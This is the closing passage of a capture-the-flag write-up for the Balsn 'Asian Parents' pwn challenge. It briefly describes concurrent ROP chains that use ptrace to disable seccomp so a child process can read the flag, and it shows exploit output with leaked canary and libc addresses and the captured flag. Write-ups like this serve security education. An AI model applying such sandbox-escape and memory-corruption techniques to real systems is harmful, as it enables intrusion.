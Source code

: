 All that's left is to `3` out of here to execute the chains.  Both will run concurrently, however the `sleep(1)` in the child ROP chain will allow time for the `ptrace` in the parent chain to disable seccomp filters so that child can ORW the flag.

Output:

```bash
# ./exploit.py  REMOTE=1
[+] Opening connection to asian-parents.balsnctf.com on port 7777: Done
[*] canary: 0xdca9078f72303300
[*] libc.address: 0x7f3bc124a000
[*] binary.address: 0x55ed2f619000
[*] buffer: 0x7ffc78a36780
[*] Closed connection to asian-parents.balsnctf.com port 7777
BALSN{4s1an_par3nt5_us3d_7o_0RW_w1th0u7_0p3n_sysca1l}
```

Midway through the competition the challenge author posted on Discord:

> [8:19 AM] paulhuang: Hi all. The timeout for challenge Asian Parents has increased to 30 seconds.

_Why?_

```
# time ./exploit.py REMOTE=1
[+] Opening connection to asian-parents.balsnctf.com on port 7777: Done
[*] canary: 0x537f4e12c4bc0900
[*] libc.address: 0x7f52e8d1e000
[*] binary.address: 0x557fc89cc000
[*] buffer: 0x7ffd18e90fe0
[*] Closed connection to asian-parents.balsnctf.com port 7777
BALSN{4s1an_par3nt5_us3d_7o_0RW_w1th0u7_0p3n_sysca1l}

real	0m4.673s
user	0m1.032s
sys 	0m0.491s
```

Curious about the other solves and if network latency was an issue (I'm almost half a world away).  Locally this took 2.5s.